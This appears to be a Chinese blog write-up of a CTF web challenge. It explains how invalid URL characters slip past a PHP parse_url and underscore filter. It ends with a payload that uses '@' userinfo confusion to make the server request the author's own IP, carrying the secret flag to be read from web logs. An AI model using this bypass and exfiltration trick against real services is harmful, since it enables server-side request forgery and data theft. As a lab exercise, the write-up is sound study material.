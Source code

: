 ```yaml
---
title: url中的下划线
date: 2017-10-22 11:18:40
tags: audit
categories:
---
```


### 0x00.前言

今天再做一道CTF题感觉挺有意思的。

题目链接 http://solveme.safflower.kr/prob/give_me_a_link

```php
 <?php
    error_reporting(0);
    require __DIR__.'/lib.php';

    if(isset($_GET['url'])){
        $url = $_GET['url'];

        if(!preg_match('/^https?\:\/\/'.$_SERVER['HTTP_HOST'].'/i', $url)){
            die('Not allowed URL');
        }

        if(preg_match('/_|\s|\0/', $url)){
            die('Not allowed character');
        }

        $parse = parse_url($url);
        if(basename($parse['path']) !== 'plz_give_me'){
            die('Not allowed path');
        }

        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $parse['scheme'].'://'.$parse['host'].'/'.$flag);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_exec($ch);
        curl_close($ch);

        echo 'Okay<hr>';
    }

    highlight_file(__FILE__); 
```

代码比较简单，无非就是几个绕过。 主要就是后面的两个正则感觉挺有意思，很显然焦点在于下划线。其实RFC明确禁止将下划线作为域名的一部分，容易造成误解破坏网络秩序。但是以前做的题中也有出现参数中带有点或者

空格变成下划线的例子。就是那一道smile的题。

<!-- more -->

![2](https://myndtt.github.io/images/2.png)



![3](https://myndtt.github.io/images/3.png)



特意参看了一下手册，发现：

![5](https://myndtt.github.io/images/5.png)

实际上这就跟php参数的命名规范有关系。

### 0x01.测试

但是今天这道题目关键的部分不是在参数里面。不过按照上面的方法我们可以进行测试.

代码如下得:

```php
<?php
$url="http://www.test.com/plz
gi
ve";
echo $url;
echo "</br>";
$parsee=parse_url($url);
var_dump($parsee);
echo "</br>";
echo basename($parsee['path']);
?>
```

![4](https://myndtt.github.io/images/4.png)

惊奇发现第一次测试居然可以，等于说换行符可行，后来试了试TAB也可以，但是我们还是没有解决问题。因为原来的题目第二次正则匹配中有个“\s”匹配任意空白符，明显不可以。那么照题目的意思肯定还有其他办法。

### 0x02.突破

接下来看题目关键的代码 :

```
$parse = parse_url($url); //应该是这个parse_url函数是关键
```

接下来又去搜php手册:

![6](https://myndtt.github.io/images/6.png)

ok关键口找到了，那什么是无效的字符呢，我查了查资料 RFC 3986

https://tools.ietf.org/html/rfc3986 对此做出了规范

http://www.360doc.com/content/16/1129/12/33651124_610418471.shtml

这些个不是空白符，且对url是无效字符

![7](https://myndtt.github.io/images/7.png)



进行了测试 没问题 这道题就解决了

![8](https://myndtt.github.io/images/8.png)

分割线--------------------------------------------------------------------------------------------------------------------------------------------------

其实这道题埋了一个伏笔。照题目给的代码 CURLOPT_RETURNTRANSFER 设置为true

```php
$ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $parse['scheme'].'://'.$parse['host'].'/'.$flag);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_exec($ch);
        curl_close($ch);
```

这并没有将那个文件里面的信息显示出来,也没有复制给变量.这该如何是好。重新回到题目。可以简述为三个问题。

```
1.url参数里面需要有http://加上请求包中host变量  no

2.下划线   get

3.访问http[s]://host/.$flag               no
 
```

1,3问题需要解决，1可以解决，修改头部就可以，至于3，由于没有回显，只能寻找web日志的帮助。在此查看文档得：

![33](http://myndtt.github.io/images/33.png)

url=http://solveme.safflower.kr:1@自己ip/plz%1Agive%1Ame

至于这个payload，最后访问的就是http://自己IP/.$flag，在日志中可以找到flag了

![34](http://myndtt.github.io/images/34.png)